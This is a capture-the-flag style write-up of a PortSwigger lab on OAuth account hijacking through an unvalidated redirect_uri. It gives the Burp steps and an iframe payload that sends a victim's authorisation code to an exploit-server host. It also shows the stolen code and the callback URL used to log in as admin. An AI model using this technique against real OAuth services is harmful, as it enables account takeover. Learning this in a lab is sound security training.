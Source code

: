 # OAuth account hijacking via redirect_uri

## Description

[This lab](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri) uses an `OAuth` service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorisation codes associated with other users' accounts.

## Reproduction and proof of concept

1. While proxying traffic through Burp, click **My account** and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.

```text
https://oauth-0ac600970457d960c02ae86d027200a9.oauth-server.net/auth/p9Zl4tDpANUmA7daaGrir
```

2. Log out and then log back in again. Observe that you are logged in instantly this time. As you still had an active session with the OAuth service, you didn't need to enter your credentials again to authenticate yourself.
3. In Burp, study the OAuth flow in the proxy history and identify the **most recent** authorisation request. This should start with `GET /auth?client_id=[...]`. Notice that when this request is sent, you are immediately redirected to the `redirect_uri` along with the authorisation code in the query string. Send this authorisation request to Burp Repeater.
4. In Burp Repeater, observe that you can submit any arbitrary value as the `redirect_uri` without encountering an error. Notice that your input is used to generate the redirect in the response.
5. Change the `redirect_uri` to point to the exploit server, then send the request and follow the redirect. Go to the exploit server's **access log**:

![Oauth](../../_static/images/oauth1.png)

There is a log entry containing an authorisation code. This confirms it is possible to leak authorisation codes to an external domain.

6. Go back to the exploit server and create the following `iframe` at `/exploit`:

```text
<iframe src="https://oauth-0ac600970457d960c02ae86d027200a9.oauth-server.net/auth?client_id=g92riblrj8611fgr7szqz&redirect_uri=https://exploit-0a68007904cad9f0c073e9a201f00023.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

![Oauth](../../_static/images/oauth2.png)

7. Store the exploit and click **View exploit**. Check that your `iframe` loads and then check the exploit server's **access log**: 

![Oauth](../../_static/images/oauth3.png)

8. **Deliver the exploit** to the victim, then go back to the **access log**:

![Oauth](../../_static/images/oauth4.png)

Copy the victim's code from the resulting request.

```text
5q8G6tiMiyS3DRtK3lnJt1Jkb08l642WL_aJGbSlCxp
```
9. Log out of the blog website and then use the stolen code to navigate to:

```text
https://0aca00c7046dd970c046ea7c0009002f.web-security-academy.net/oauth-callback?code=5q8G6tiMiyS3DRtK3lnJt1Jkb08l642WL_aJGbSlCxp
```

10. The rest of the OAuth flow will be completed automatically, and you will be logged in as the `admin` user. Open the admin panel and delete Carlos.

![Oauth](../../_static/images/oauth5.png)

## Exploitability

An attacker will need to log in to `wiener:peter`; and then steal an authorisation code associated with the admin user; then use it to access their account and delete Carlos.

The admin user will open anything sent from the exploit server, and always has an active session with the `OAuth` service. 
